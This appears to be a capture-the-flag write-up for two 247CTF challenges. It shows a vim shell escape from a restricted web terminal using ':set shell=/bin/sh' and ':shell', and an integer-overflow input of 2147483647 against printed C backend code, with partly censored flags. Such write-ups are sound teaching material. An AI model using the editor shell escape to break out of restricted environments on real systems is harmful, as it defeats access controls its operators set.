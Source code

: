 

## THE TEXT EDITOR JAIL
We didn't have time to setup and test a proper jail, so this text editor will have to do for now. Can you break free?

### Solution
This one is a pretty simple escape. We are dropped into vim over a `ttyd` web terminal.
```
:set shell=/bin/sh
:shell
~ $ ls
run_for_flag
~ $ ./run_for_flag
247CTF{c69287be156{censored}cd3f2fcd8fa}
```
## AN IMPOSSIBLE NUMBER
Can you think of a number which at the same time is one more than itself?

### Solution
We are given some C code for the backend. As the value range for an `int` in C is -2,147,483,648 to 2,147,483,647, the obvious answer is 2,147,483,647 because incrementing it would cause an integer overflow.
```c
#include <stdio.h>
int main() {
    int impossible_number;
    FILE *flag;
    char c;
    if (scanf("%d", &impossible_number)) {
        if (impossible_number > 0 && impossible_number > (impossible_number + 1)) {
            flag = fopen("flag.txt","r");
            while((c = getc(flag)) != EOF) {
                printf("%c",c);
            }
        }
    }
    return 0;
}
```
```bash
$ telnet 468b037a133065a0.247ctf.com 50247
...
2147483647
247CTF{38f5daf7{censored}3a7575bf4d7d1e}
```
